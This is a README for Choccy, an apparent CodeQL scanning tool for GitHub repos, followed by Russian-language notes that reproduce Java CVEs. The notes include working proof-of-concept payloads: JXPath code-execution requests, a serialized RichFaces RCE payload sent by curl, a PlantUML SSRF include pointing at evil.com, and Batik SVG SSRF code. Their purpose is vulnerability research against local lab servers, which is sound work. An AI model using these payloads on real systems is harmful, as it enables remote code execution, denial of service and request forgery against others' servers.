









# Choccy


## Introduction
Choccy is a project used to monitor updates to the GitHub repo and automatically perform CodeQL analysis scans on it.


## Start

You need to configure your own code compilation environment and CodeQL environment before running：

Download CodeQL binaries and libraries separately https://github.com/github/codeql-cli-binaries/releases, https://github.com/github/codeql/tags

After decompression, it is placed in the same directory as the Choccy binary file, that is,：

```
$ tree . -L 1
.
├── choccy
├── codeql
└── codeql-codeql-cli-v2.19.4
```


The main configuration and functions are in the Web interface, and there are only two command line parameters：

```
-addr string
      Listening address and port (default "0.0.0.0:80")
-token string
      System Token
```

The first time the program runs, it will create a `choccy_data` folder in its own directory to save the data. If you do not specify the token, it will be randomly generated and output to the command line. The project itself has potentially arbitrary command execution and file reading functions, so if the service is open to the public network, please be sure to set a strong password.


## Building

You need to first enter the web directory to compile the front-end, and the front-end resource files will be automatically embedded when compiling the golang back-end.

Simply run `./build.sh`, or alternatively

```shell
cd web
npm install
npm run build
cd ..
go build -o choccy main.go 

#Cross-compile on mac
#CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build -o choccy_linux_amd64 main.go
#CGO_ENABLED=0 GOOS=windows GOARCH=amd64 go build -o choccy_windows_amd64.exe main.go
#CGO_ENABLED=0 GOOS=darwin GOARCH=amd64 go build -o choccy_darwin_amd64 main.go
```


## Usage example

After building the application, start it and go to address on web browser, and enter system token.

Now you should see the main page


Let's analyze CVE-2023-40826 for package org.pf4j:pf4j. Firstly we need CodeQL query kit.

Create file `choccy_data/suites/java_mine.qls` with the next content:
```
- description: java mine
- queries: .
  from: choccy/java
- include:
    tags contain: mine
```

Next, create CodeQL query with needed tag in file `choccy_data/packs/java/sinks/ZipSlipMine.ql` with the next content:
```
/**
 * @name Arbitrary file access during archive extraction ("Zip Slip")
 * @description Extracting files from a malicious ZIP file, or similar type of archive, without
 *              validating that the destination file path is within the destination directory
 *              can allow an attacker to unexpectedly gain access to resources.
 * @kind path-problem
 * @id java/zipslip
 * @problem.severity error
 * @security-severity 7.5
 * @precision high
 * @tags mine
 */

import java
import semmle.code.java.security.ZipSlipQuery
import ZipSlipFlow::PathGraph

from ZipSlipFlow::PathNode source, ZipSlipFlow::PathNode sink
where ZipSlipFlow::flowPath(source, sink)
select source.getNode(), source, sink,
  "Unsanitized archive entry, which may contain '..', is used in a $@.", sink.getNode(),
  "file system operation"
```

Now check that you have query kit `java_mine.qls` in the "Query Kit" tab


Click on `java_mine.qls`, the kit should contain our CodeQL query


Now let's add GitHub repository for scanning. Go back to "GitHub Project" tab and click on "+" icon. Fill in the fields


Click on the left button named "Join the scan queue" and go to "Task" tab


Now we see that latest version have no ZipSlip vulnerabilities. Let's add custom built CodeQL database with older version. Supposing you already have the database for version v3.9.0, go to "Database tab" and press "+", and upload database


Then go back to "Task" tab, press "+" and choose "Create from an existing database", and fill the fields


Wait for the scan completion. You should see next


Go to "Analysis results" tab and explore the results


### Upload the CodeQL database for scanning

On the 'Database' page, click the plus icon in the upper right corner to package the local database as a zip archive, then upload, wait for the upload and import to complete (this page cannot be closed during the upload)

(The upload function does not use block transmission, so the available memory of the server is required to be greater than the file size)


On the 'TASK' page, click the plus icon in the upper right corner, and select the database and query suite. The project name is the same as the database name by default.


### Select GitHub projects in bulk for scanning

On the 'task' page, select the plus sign icon in the upper right corner and click 'Batch Create from GitHub`


The 'search statement' is the retrieval of the warehouse. The syntax reference is: https://docs.github.com/en/rest/search/search?apiVersion=2022-11-28#search-repositories

'Scan range' refers to which part is taken out for scanning after being sorted in a certain order.In the screenshot below, it will be sorted in reverse order by the number of stars, and the 11th and 12th warehouses will be scanned.


## CVE reports

### CVE: CVE-2022-41852

Package: commons-jxpath:commons-jxpath

CWE-470

Данная уязвимость опасна тем, что при запуске HTTP-сервера злоумышленник при отправке определенного запроса будет иметь возможность исполнить произвольный код на сервере.

При создании контекста `var pathContext = JXPathContext.newContext(person);` туда сохраняются все стандартные функции Java, и эту функцию можно вызвать, передав например запрос `<b>?path=java.lang.System.exit(42)</b>` и тогда сервер выключится.

Паблик метод у контекста по сути `pathContext.getValue(path)` (т.е. `org.apache.commons.jxpath.JXPathContext:getValue`), но функции создаются глужбе, в файле `JXPathContext.java`:
```
public abstract class JXPathContext {
    ...

    private static final PackageFunctions GENERIC_FUNCTIONS =
        new PackageFunctions("", null);

    ...
}
```

Sink находится в файле `PackageFunctions.java` и выглядит так:
```
functionClass = Class.forName(className);
```
т.е. метод `java.lang.Class:forName`

PoC находится по ссылке https://github.com/Warxim/CVE-2022-41852/tree/main

PoC запускает спринг-сервер с двумя ручками:
```
/vulnerable-example?path=[path]
/secure-example?path=[path]
```

Первая ручка уязвимая, вторая нет. В пути первой ручки нужно передать какую-нибудь функцию и она будет вызвана, например если запустить сервер из PoC на порту 8080 и отправить запрос
```
curl http://localhost:8080/vulnerable-example?path=java.lang.System.exit(42)
```
то запущенный сервер упадет




Если перезапустить сервер и отправить запрос
```
curl http://localhost:8080/secure-example?path=java.lang.System.exit(42)
```

То сервер не падает и отвечает (500 т.к. такой функции нету)



Коммита с исправлением по сути нету т.к. эту CVE не признали уязвимостью. Чтобы злоумышленник не мог исполнить произвольный код, нужно вызвать `pathContext.setFunctions(new FunctionLibrary());` и тогда из контекста нельзя будет достать произвольную функцию.

### CVE: CVE-2023-46442

Package: org.soot-oss:soot

CWE-835

Данная уязвимость опасна тем, что через бесконечный цикл злоумышленник может вызвать отказ сервиса (из-за большого потребления памяти).

Паблик метод `soot.SootMethod:retrieveActiveBody`, синк не найду

PoC лежит здесь https://github.com/JAckLosingHeart/CVE-2023-46442_POC/tree/main

Его суть в том чтобы отправить функция `retrieveActiveBody` вызвалась с классом `Build$Builder.class` который вызовет бесконечное выполнение (и в итоге выест всю оперативную память сервера)



т.е. видно что при запуске он подвисает



и в итоге приходит к GC overhead limit

### CVE: CVE-2018-12533

Package: org.richfaces:richfaces-core

CWE-917

Данная уязвимость опасна тем что позволяет произвести инъекцию кода и запустить на сервере произвольный Java код.

PoC https://github.com/llamaonsecurity/CVE-2018-12533/blob/master/src/main/java/cve_2018_12533/Main.java

Докер-контейнер не получилось запустить из-за старой версии докер-схемы в зависимости, но вручную можно проделать следующие шаги
```
wget http://downloads.jboss.org/richfaces/releases/3.3.X/3.3.4.Final/richfaces-examples-3.3.4.Final.zip

wget https://sourceforge.net/projects/jboss/files/JBoss/JBoss-5.1.0.GA/jboss-5.1.0.GA-jdk6.zip

unzip richfaces-examples-3.3.4.Final.zip

unzip jboss-5.1.0.GA-jdk6.zip

mv richfaces-examples-3.3.4.Final/photoalbum/dist/photoalbum-ear-3.3.4.Final.ear jboss-5.1.0.GA/server/default/deploy/

./jboss-5.1.0.GA/bin/run.sh -b 0.0.0.0
```

И сервер запустится. После чего запускаем программу и нам сгенерируется нужный пейлоад, например такой
```
org.richfaces.renderkit.html.Paint2DResource/DATA/eAHNUs9rE0EUngRq1XqoP1BEhLqKplBm01RFqAExFQ1srTQiWA9hsnndnXZ2Zjs7m64WvXlRFMSrN0UQFET!Am9S8NI!QQTxIIggHvXNbmwx4N297GPme9!3ve!Ny69kKNHktNIB1dwPF5kPCdUgu6CXuaGhiQS9wrg0tZl5SFSqfTjWjFgAM8yw-vuNj6O!Xrwuk-Em2d7uBA0llG6S4fai0hEztgqBByFW29qrvGvCBbLDZ34IrCPAI0PtLtIYssdbYj3mCiYDd66zBL6Z9rAjtsIr5A4pZTEpvjL-MkJKEyRG38dtW0YL176KYiVBGtpCTrikBA7RYj3Q19ff1h8!-TBbJmUP9QVLksssgr91W0ZzGaDuzgR7ujmHIfsLZ1y5LdCcCX7LOp!OYit!AiVpksrcgACTUBDUg4D5N2fBhKp7nssukva9l8qk5JFSZMihnDVzQbgF8EIWa0gSriRS!4v5KgsG0X-Yd2Eqmhws4kATg7g37vr9Tz9PPsT4ELd3E7el-!Tuvdb3hY2zFmEdHLFPYqmjknyoQb5mFIvOtwM!Rt7tnrXadkkjq4!Ig6NrGlZSSAwNwDRs0pXxzdJTDFeCBwKL4tKxVqhdPJ1PZWZ4BE7eUChWHKTBi!45lz21DBWZCjFOIQO!4hiV-uGYa6LY9XvQrlUnz7Qna6emppzx24SkOOyNPOxCo7!kVxvXPn85vHYxHxYzLBuyLzfCFZ1LTZwaBALDTY1u-SseZhxnq8!Js7Fz1YnqWN3xEWagoaTBh1f!r6Z3st8r61CR
```

Данный пейлоад для примера будет создавать папку `/tmp/hacked.txt`

Отправляем запрос
```
curl http://127.0.0.1:8080/photoalbum/a4j/s/3_3_3.Finalorg.richfaces.renderkit.html.Paint2DResource/DATA/eAHNUk1r1UAUnfegVq2L-oEiItQo-goyKSJu6gOxFX2QWukTwbp4zEtuk2knM-nkpo0W3Qmi4satIOJKUBD9Be6k4KY!QQRxIYggLvVOUlssuDebXGbOnHPuufflVzaQW3bG2JhbGSZzIoScW9AR2AWJPMFU8StCajw1OQO5KWwIxzqpiGFSoGi!X!s4!OvF6yYb7LDtvX48YZSxHTbYmzM2FeiqBGScULWttywjTGbZjlCECYi-goAN9CKiQbYnmBdLwldCx!50fx5CHA!oReaEF9kd1igzVn9N-pWMNU6yjHwfd89KXrsOTZoZDRp5lzjhklHURFcsgb2--rb9-MmHqSZrBqSvRJ5fFin8rdtFK3VMujtzehNVHMj2186k8btgpVDylnM-XmZO!gRJ8rzQlQEFmHNQPIBYhDenABMTnZc6ItJ1740mawSskSI7VLGWPii!Bl4oMwt5Lo0m6n8xXxXxVvQf5l2UimUH6zjIxFbcG3!1waefpx9RfITbu4Hb1H1-9373--zaWYdwDo64lZjvm7xqaitfJ81U!9uBH0Pvdk85bTekoeWH7N7RFQuLBeTIY8AJl3RrdKMMjKCR0IGior70nBXuBs9nCo0yBa!C14Itj1g2z6VeMgvQ0oVSoxxKCFsemiJMRnxMMz8R4QJEHEv0Rm8zVlCfN6qca!r1-b5au!b5y-GVi1WfFF8T2b7KgzR8usCsQAKCoCENb1qrdzLLyuVn7OnIubGTYyNtLyQYwoTRSDvX!l8a98rfWVxP3w__.jsf
```

И видим файл на запущенном сервере.



Нету исходников со старым кодом, единственное что нашлось https://github.com/nuxeo/richfaces-3.3 опять не собирается база codeql. Из-за этого не могу найти sink и паблик метод.

### CVE: CVE-2023-3432

CWE-918

Package: PlantUML

Данная уязвимость опасна тем что позволяет перенаправлять запросы на другие сайты (например злоумышленника)

PoC находится здесь https://github.com/zixing131/docs/blob/823060e698a8f8609bb4b3d22cc167cc9db2a19a/%E5%A5%87%E5%AE%89%E4%BF%A1%E6%94%BB%E9%98%B2%E7%A4%BE%E5%8C%BA/%E5%A5%87%E5%AE%89%E4%BF%A1%E6%94%BB%E9%98%B2%E7%A4%BE%E5%8C%BA-Web%E5%AE%9E%E6%88%98-%E6%B5%85%E8%B0%88PlantUML%E5%9B%9E%E6%98%BESSRF%E6%BC%8F%E6%B4%9E-CVE-2023-3432/%E5%A5%87%E5%AE%89%E4%BF%A1%E6%94%BB%E9%98%B2%E7%A4%BE%E5%8C%BA-Web%E5%AE%9E%E6%88%98-%E6%B5%85%E8%B0%88PlantUML%E5%9B%9E%E6%98%BESSRF%E6%BC%8F%E6%B4%9E-CVE-2023-3432.md и заключается в том чтобы запустить PlantUML с параметром `PLANTUML_SECURITY_PROFILE=ALLOWLIST` и установить url `-Dplantuml.allowlist.url=https://plantuml.com`, тогда следующая диаграмма будет перенаправлять запросы не на `https://plantuml.com` а на `https://evil.com`
```
@startuml
!include https://plantuml.com@evil.com
a -> b: %load_json()
@enduml
```

Нужно сделать следующие шаги для воспроизведения
```
docker pull plantuml/plantuml-server:tomcat-v1.2023.8

docker run -d -p 8080:8080 plantuml/plantuml-server:tomcat-v1.2023.8
```

Вторая команда запустит сервер в докере на порту 8080. Дополнительно я написал простейший http-сервер на Go, который отдает строчку `hacked!!!`
```
package main

import (
    "net/http"
)

func hello(w http.ResponseWriter, req *http.Request) {
    w.Write([]byte("hacked!!!"))
}

func main() {
    http.HandleFunc("/", hello)
    http.ListenAndServe("10.255.255.254:8081", nil)
}
```
Айпишник нужно вставить свой, из вывода команды `ip a`.

Запускаем сервер (через `go run main.go`), в графическом интерфейсе вставляем например следующее
```
@startuml
!include http://10.255.255.254:8081/
Alice -> Bob: Message
@enduml
```



И видим результат


т.е. в конце он вставил ответ от сервера `hacked!!!`


Sink https://github.com/plantuml/plantuml/blob/v1.2023.8/src/net/sourceforge/plantuml/security/SURL.java#L253 т.е. метод `java.util.regex.Pattern:compile`

Коммит с фиксом https://github.com/plantuml/plantuml/commit/b32500bb61ae617bb312496d6d832e4be8190797#diff-c39d9b156bb6f66caa73b1859ae2f15630567d52c1d19c30dbb955a53fe5ca0fR253

Фикс заключается в том что они подправили регэксп.

### CVE: CVE-2022-44729

CWE-918

Package: org.apache.xmlgraphics:batik-xml

Данная уязвимость также опасна тем что позволяет перенаправлять запросы на другие сайты (например злоумышленника)

PoC находится здесь https://psytester.github.io/Jira_SSRF_at_Batik_CVEs_PoC/

Его суть в том чтобы стриггерить Server-Side-Request-Forgery через SVG-теги `<image>, <use>, <tref>` используя `xlink:href`
```
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="450" height="500" viewBox="0 0 450 500">
	<text x="100" y="100" font-size="45" fill="blue" >
		image xlink:href SSRF attack
	</text>
    	<image width="50" height="50" xlink:href="jar:http://127.0.0.1:8067/some-internal-resource?poc_triggered_tag=image!/"></image>
</svg>
```

По ссылке по большей части описание, для воспроизведения сделаем следующие шаги.

1. Запустим python-сервер куда будут уходить запросы через команду `python3 -m http.server`
2. Теперь можно запустить саму программу с PoC (лежит в папке `batik-cve`), продублирую тут код:
```
import java.awt.Rectangle;
import java.awt.Graphics2D;
import java.awt.Color;
import java.io.ByteArrayInputStream;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;

import org.apache.batik.transcoder.TranscoderInput;
import org.apache.batik.transcoder.TranscoderOutput;
import org.apache.batik.transcoder.image.PNGTranscoder;

public class TestSVGGen {

  public void paint(Graphics2D g2d) {
    g2d.setPaint(Color.red);
    g2d.fill(new Rectangle(10, 10, 100, 100));
  }

  public static void main(String[] args) throws IOException {
    String svg = """
            <svg xmlns="http://www.w3.org/2000/svg"
                 xmlns:xlink="http://www.w3.org/1999/xlink"
                 width="450" height="500" viewBox="0 0 450 500">
                <text x="100" y="100" font-size="45" fill="blue">
                    image xlink:href SSRF attack
                </text>
                <use width="50" height="50"
                       xlink:href="http://127.0.0.1:8080/"/>
            </svg>
        """;

    InputStream svgInputStream = new ByteArrayInputStream(svg.getBytes("UTF-8"));
    TranscoderInput input = new TranscoderInput(svgInputStream);

    OutputStream pngOutputStream = new FileOutputStream("output.png");
    TranscoderOutput output = new TranscoderOutput(pngOutputStream);

    PNGTranscoder transcoder = new PNGTranscoder();
    try {
      transcoder.transcode(input, output);
    } catch (Exception e) {
    }

    pngOutputStream.flush();
    pngOutputStream.close();
  }
}
```

Т.е. мы преобразуем svg в png, и batik делает запрос на наш сервер `http://localhost:8080`





На втором скрине видно, что запрос пришел

Я создал базу на версии `batik-1.16` и запустил через codeql, но оно не находит уязвимости.

### CVE: CVE-2021-21479

Package: com.sap.scimono:scimono-server

CWE-74

Данная уязвимость позволяет заинжектить java expression 

Невозможно найти исходники библиотеки, в гитхабе https://github.com/SAP/scimono вообще только один релиз

PoC тоже не находится

### CVE: CVE-2024-36522

Package: org.apache.wicket:wicket-util

CWE-74

Данная уязвимость опасна тем что позволяет произвести удаленное исполнение произвольного кода через XSLT-инъекцию

PoC не находится

Паблик метод (по сути конструктор стрима) `	public XSLTResourceStream(final IResourceStream xsltResource, final IResourceStream xmlResource)`, т.е. `org.apache.wicket.wicket-util.XSLTResourceStream:constructor`

Sink `javax.xml.transform.stream:StreamSource`

Фикс: https://github.com/apache/wicket/compare/rel/wicket-10.0.0...rel/wicket-10.1.0

По сути они добавили `TransformerFactory` и сделали стандартный, в котором выставляют настройку безопасности `factory.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true);`

### CVE: CVE-2023-39010

Package: org.boofcv:ip

CWE-94

Данная уязвимость опасна тем что позволяет отправить вредоносный YAML как конфиг для калибровки камеры и с помощью этого произвести arbitrary code injection.

Паблик метод `boofcv.io.calibration.CalibrationIO:load`

Sink `java.util.regex.Pattern:compile`

PoC не находится

Проблем по сути в парсинге регэкспа ямла.

Фикс https://github.com/lessthanoptimal/BoofCV/compare/v0.43...v0.44 теперь они конструируют YAML через SafeConstructor:
```
return new Yaml(new SafeConstructor(new LoaderOptions()), new Representer(dumperOptions),
				dumperOptions, loaderOptions);

...

var yaml = new Yaml(new SafeConstructor(new LoaderOptions()), representer);
```

